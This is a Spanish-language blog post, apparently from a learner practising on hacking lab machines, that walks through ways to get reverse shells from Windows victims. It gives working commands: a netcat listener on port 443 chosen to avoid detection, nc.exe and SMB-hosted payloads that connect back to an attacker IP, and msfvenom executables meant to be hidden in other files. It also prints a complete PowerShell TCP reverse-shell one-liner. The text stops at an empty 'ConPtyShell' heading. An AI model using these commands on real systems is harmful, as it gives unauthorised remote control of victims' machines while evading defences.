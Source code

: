 ```yaml
---
layout: single
title: Reverse Shells en Windows
excerpt: "En este artículo vamos a ver las formas que hay de mandarnos reverse shells cuando la maquina victima es Windows."
date: 2022-08-26
classes: wide
header:
  teaser: /assets/images/web-hacking/reverse-shell-windows/netcat.PNG
  teaser_home_page: true
  icon: 
categories:
  - Windows
tags:  
  - Windows
  - Reverse shell
---
```


He hecho este artículo ya que las `reverse shells` en `Windows` son diferentes a Linux y ya que he empezado a aprender Hacking para Windows, ya que en linux ya soy capaz de resolver maquinas sin ayuda pues se me ha ocurrido hacer este post.

# PONERNOS A LA ESCUCHA: 

Lo primero, antes de mandarnos una consola desde la máquina víctima necesitamos un `puerto` donde estemos `a la escucha` para que nos llegue ahí la shell.

Para esto solemos utilizar el puerto `443/tcp`, ya que es un puerto por el cual se transmiten datos en casos de páginas web, ya que es el puerto por el cual suelen correr los servicios `https`. Por lo tanto, los `firewalls y antivirus` `pueden detectar` datos transmitirse por ese puerto, pero `no le dan importancia`, ya que es normal que se manden datos por ahí. Y, por lo tanto, `somos menos detectables`.

Para esto utilizaremos el siguiente `comando` estando en `root`:

```
> nc -nlvp 443
listening on [any] 443 ...
```

## FORMA MEJORADA

Por lo que he estado viendo hay un comando que funciona mejor ya que nos permite utilizar atajos de teclado como `Ctl+L`:

```
> rlwrap nc -nlvp 443
listening on [any] 443 ...
```

# MANDARNOS UNA REVERSE SHELL
## Nc.exe

Este binario es `similar a netcat` en `Linux`, pero este funciona en `Windows`, tanto en 32, como en 64 bits.

Para esto usaremos el siguiente comando:

```
> nc.exe -e cmd.exe <nuestra ip> 443
```

En caso de que no este instalado lo podemos descargar desde: `https://github.com/int0x33/nc.exe/`

Con eso podemos mandarlo en un archivo malicioso y que lo ejecute o que el archivo lo descargue...

Pero también podemos montarnos un servidor `SMB` y utilizarlo desde ahí poniendo el siguiente comando en la máquina Windows:

```
> \\192.168.118.10\pwned\nc.exe -e cmd.exe <ip> <puerto>
```

## Msfvenom

Msfvenom no solo es útil cuando nos generamos `shellcodes` para los `Buffer Overflow`, también lo es para `crear binarios que nos ejecuten una shell en Windows`. En concreto, los dos `payloads que nos pueden interesar` (aunque hay más y de muchos tipos) son los siguientes:

```
> msfvenom -l payloads | grep -i 'windows' | grep -i '/shell_reverse'
windows/shell_reverse/tcp                            Connect back to attacker and spawn a command shell
windows/x64/shell_reverse/tcp                        Connect back to attacker and spawn a command shell (Windows x64)
```

Si la máquina víctima es de `32 bits` usaremos el primero y si es de `64` usaremos el segundo.

Con el siguiente comando creamos un `ejecutable` que si lo ejecutamos en la máquina víctima nos mandará una `reverse shell`. Claro, para eso tendremos que `ocultarlo` dentro de otro archivo, o también podríamos ponerlo en un servidor web hecho con python y que la máquina víctima lo descargue y lo ejecute, pero no me quiero extender mas aquí.

```
> msfvenom -p <payload> LHOST=<ip> LPORT=443 -a x<arquitectura> -f exe -o shell.exe
```

## Powershell Reverse Shell One-Liner

En `Powershell` que es un lenguaje muy potente que maneja `Windows` hay un comando con el que nos podemos mandar una reverse shell con una única linea de codigo:

```
> $client = New-Object System.Net.Sockets.TCPClient("<tu IP>",443);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + "PS " + (pwd).Path + "> ";$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()
```

No es muy recomendable utilizar este metodo para obtener acceso desde una `webshell` o desde una `cmd`, pero `es muy util para Rubber Duckys`.

## Nishang

Nishang es un `repositorio` el cual contiene una gran cantidad de `scripts` de powershell usados para la seguridad ofensiva. Su repositorio oficial es el que podéis visitar en este enlace: `https://github.com/samratashok/nishang`

Entre todos los scripts que tiene, `hay uno` en concreto bastante famoso llamado `Invoke-PowerShellTcp.ps1`, el cual, como no, `nos invoca una reverse shell con una powershell`:

![](/assets/images/web-hacking/reverse-shell-windows/script.png)

## ConPtyShell
